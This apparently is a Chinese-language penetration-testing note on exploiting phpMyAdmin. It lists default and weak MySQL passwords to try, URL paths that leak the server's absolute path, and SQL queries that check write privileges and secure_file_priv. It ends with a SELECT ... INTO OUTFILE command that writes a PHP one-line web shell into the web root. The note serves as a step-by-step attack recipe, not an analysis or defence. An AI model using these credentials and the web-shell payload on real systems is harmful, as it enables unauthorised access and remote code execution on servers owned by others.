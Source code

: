 # phpMyAdmin

phpMyAdmin 的漏洞，大多需要登录后台才能利用

## 弱口令

| 用户名            | 密码                 | 
|---------------|---------------------|
| root | root | 
|root|(空格)|
|root|toor| 
|mysql|mysql|
|mysql|root| 
|mysql|(空格)|   
|mysql|toor| 


## 方法一：select into outfile
### 利用条件

1. 当前「数据库用户」有写权限
2. 知道网站绝对路径
3. 网站路径具有写权限（需要 secure_file_priv 设置为空）

针对第一点，我们可以使用如下命令查看（root 用户不用查看，具有写权限）
```
select * from mysql.user where user='<USER>'\G
```
针对第二点，爆 PHP 绝对路径的方法有很多：

```
phpmyadmin爆路径
说明：
一旦找到phpmyadmin的管理页面，再访问该目录下的某些特定文件，就很有可能爆出物理路径。至于phpmyadmin的地址可以用wwwscan这类的工具去扫，也可以选择google。PS：有些BT网站会写成phpMyAdmin。
1. /phpmyadmin/libraries/lect_lang.lib.php
2./phpMyAdmin/index.php?lang[]=1
3. /phpMyAdmin/phpinfo.php
4. load_file()
5./phpmyadmin/themes/darkblue_orange/layout.inc.php
6./phpmyadmin/libraries/select_lang.lib.php
7./phpmyadmin/libraries/lect_lang.lib.php
8./phpmyadmin/libraries/mcrypt.lib.php
```

针对第三点，我们可以使用如下命令查看：
```
show global variables like '%secure%';
```
- 若`secure_file_priv` 为 `NULL` ，表示对任意目录没有写权限
- 若`secure_file_priv` 为具体路径 ，表示仅对该路劲有写权限
- 若`secure_file_priv` 为空（如下图） ，表示对任意路径有写入权限

![image.png](https://i.loli.net/2020/08/08/rxDc5avnVGyF8zW.png)


如果确认三个条件都满足，则可使用如下命令写入一句话 shell：
```
# usr/www/html/ 换成你获取到的网站绝对路径
select "<?php @eval($_POST['shell']);?>" into outfile '/usr/www/html/shell.php'
```
